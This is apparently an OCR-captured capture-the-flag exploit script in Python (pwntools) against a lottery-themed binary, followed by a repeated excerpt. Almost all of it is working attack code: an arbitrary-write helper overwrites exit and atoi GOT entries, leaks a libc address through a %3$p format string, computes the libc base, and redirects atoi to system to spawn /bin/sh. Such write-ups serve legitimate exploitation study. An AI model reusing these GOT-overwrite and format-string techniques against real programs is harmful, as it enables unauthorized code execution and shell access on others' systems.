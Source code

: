 ```python

def aaw(address, data):
    sleep(0.1)
    p.sendline(str(address).encode())
    p.sendline(str(data).encode())

set_name(b'A'*0x30)

# 4096
asset = 0
while(asset < 4096):
    lottery = get_lottery()
    asset += draw(lottery)

# exit_got -> start
p.sendlineafter(b'=> ', b'4100')
aaw(exit_got, start)
exit()
set_name(b'B')

# atoi_got -> printf
p.sendlineafter(b'=> ', b'4100')
aaw(atoi_got, printf_plt)

# libc_base leak
p.sendlineafter(b"=> ", b"%3$p")
libc = int(p.recvn(14), 16)
libc_base = libc - 0x11ba61
print("%3$p: ", hex(libc))

# pause()

print("libc_base: ", hex(libc_base))
set_name(b'C')

# system("/bin/sh")
p.sendlineafter(b'=> ', b'%4100c')
aaw(atoi_got, libc_base+system_offset)
p.sendlineafter(b"=> ", b"/bin/sh\x0a")

p.interactive()
```

---

```python
p.sendlineafter(b'=> ', b'4100')
aaw(exit_got, start)
exit()
set_name(b'B')
```
